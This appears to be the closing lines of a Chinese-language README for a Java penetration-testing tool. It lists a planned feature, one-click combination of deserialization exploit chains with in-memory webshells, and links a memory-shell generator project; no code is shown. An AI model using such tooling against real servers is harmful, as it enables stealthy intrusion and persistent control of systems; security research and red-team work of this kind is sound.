* 后续考虑：实现 反序列化链与内存马 一键结合。

## Reference

<https://github.com/pen4uin/java-memshell-generator>
